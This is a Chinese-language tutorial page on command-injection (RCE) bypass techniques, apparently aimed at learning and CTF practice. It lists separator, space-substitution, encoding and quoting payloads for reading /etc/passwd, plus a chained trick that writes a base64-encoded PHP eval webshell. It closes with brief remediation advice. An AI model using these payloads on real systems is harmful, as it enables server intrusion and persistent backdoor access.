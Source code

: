 # RCE

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**描述**

由于业务需求，程序有可能要执行系统命令的功能，但如果执行的命令用户可控，业务上有没有做好限制，就可能出现命令执行漏洞。

**相关工具**
- [commixproject/commix](https://github.com/commixproject/commix)

**相关案例**
- [静态站点托管平台仅能托管静态资源？](https://tttang.com/archive/1501/)

**writeup**
- [BUUCTF--[第二章 web进阶]死亡ping命令](https://blog.csdn.net/qq_45414878/article/details/109672659)

---

## 绕过技巧

### Fuzz字典

- [RCE字典](https://github.com/ffffffff0x/AboutSecurity/tree/master/Payload/RCE)

### 空格代替

空格在 bash 下，可以用以下字符代替空格
```
<
${IFS}
$IFS$9
%09
```

```
cat</etc/passwd
cat${IFS}/etc/passwd
cat$IFS$9/etc/passwd
cat%09/etc/passwd
```

$IFS 在 linux 下表示分隔符，只有 cat$IFSa.txt 的时候, bash 解释器会把整个 IFSa 当做变量名，所以导致没有办法运行，然而如果加一个 {} 就固定了变量名，同理在后面加个 $ 可以起到截断的作用，而 $9 指的是当前系统 shell 进程的第九个参数的持有者，就是一个空字符串，因此 $9 相当于没有加东西，等于做了一个前后隔离。

### 截断符号

比如测试 ping 功能的点，要求填写一个 ip 参数这样的题目，这个时候就需要测试截断符号，将你输入的 ip 参数和后面要执行的命令隔开。首先测试所有的截断符号：
```
$
;
|
-
(
)
`
||
&&
&
}
{
%0a
```

利用截断符号配合普通命令简单问题基本就出来；例如：ip=127.0.0.1;cat /home/flag.txt 这样就可以达到同时执行两条命令的效果

### 编码

这种绕过针对的是系统过滤敏感字符的时候，比如他过滤了cat命令，那么就可以用下面这种方式将cat先base64编码后再进行解码运行。
```
echo 'cat' | base64

`echo 'Y2F0Cg==' | base64 -d` /etc/passwd
```

针对一些代码执行的场景,可以通过在 base64 中添加干扰字符的方式尝试绕过
```
success-inject
c3VjY2Vzcy1pbmplY3Q=
```

php
```php
<?php
$str='--!~@--c3V$$j<$>Y--|@--2Vzcy1--|@--p--|@--b^^mp--|@--lY--|@--3Q=';
echo base64_decode($str);
?>
```

python
```python
import base64
leleyyds = base64.b64decode("--!~@--c3V$$j<$>Y--|@--2Vzcy1--|@--p--|@--b^^mp--|@--lY--|@--3Q=")
print(leleyyds.decode())
```

### 单引号

```
cat /etc/pass'w'd
```

### 反斜杠利用

linux 下创建文件的命令可以用 `1>1` 创建文件名为 1 的空文件

`ls>1` 可以直接把 ls 的内容导入一个文件中, 但是会默认追加 \n

**Linux**
```
w>hp\\
w>c.p\\
w>d\>\\
w>\ -\\
w>e64\\
w>bas\\
w>7\|\\
w>XSk\\
w>Fsx\\
w>dFV\\
w>kX0\\
w>bCg\\
w>XZh\\
w>AgZ\\
w>waH\\
w>PD9\\
w>o\ \\
w>ech\\
ls -t>ls
sh ls
```

- w 长度最短的命令
- ls -t 以创建时间来列出当前目录下所有文件
- 文件列表以[ [ 换 行符] ]分割每个文件
- 引入 `\` 转义ls时的换行
- 换行不影响命令执行
- 成功构造任意命令执行,写入Webshell

```bash
ls -t
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7 | base64 -d>c.php
```

---

## 修复方案

* 避免命令用户可控
* 如需用户输入参数，则对用户输入做严格校验，如&&、|、;等

